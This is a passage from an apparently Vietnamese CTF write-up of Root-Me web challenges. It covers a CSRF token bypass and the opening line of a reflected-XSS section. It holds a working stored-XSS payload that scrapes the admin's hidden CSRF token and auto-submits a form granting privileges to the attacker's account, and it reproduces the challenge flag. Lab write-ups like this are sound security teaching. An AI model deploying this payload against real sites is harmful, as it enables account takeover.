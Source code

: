 
# 17. CSRF - token bypass

- Bài này khi đăng nhập sẽ có trường input token mặc định bị ẩn thường token sẽ được random cho mỗi user.

- Bài này cũng giống như bài CSRF trước nhưng có thêm cần phải có token của admin.

- Đăng kí rồi đăng nhập với `asd/asd`

- Gửi cho admin cái form lấy token rồi submit cái status của tài khoản `asd` là thành công.

- Gửi vào `Comment`:

```
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch23/index.php?action=profile" method="post" enctype="multipart/form-data"> 
    <input id="username" type="text" name="username" value="asd">
    <input id="status" type="checkbox" name="status" value="on" checked>
    <input id="admin-token" type="hidden" name="token" value="" /> 
</form> 
<script> 
    var request = new XMLHttpRequest(); request.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false); 
    request.send(null); 
    var respone = request.responseText; 
    var token_group = respone.match("token\" value=\"(.*?)\""); 
    var token = token_group[1]; 
    document.getElementById("admin-token").value = token; 
    document.csrf.submit(); 
</script>
```

- Result:

![1](1/../img/17/Screenshot%20from%202023-01-28%2020-36-00.png)

```
Flag: Byp4ss_CSRF_T0k3n-w1th-XSS
```


# 18. XSS - Reflected

- Ta thử các endpoint thì thấy có vẻ `?p=` là vulnerable:
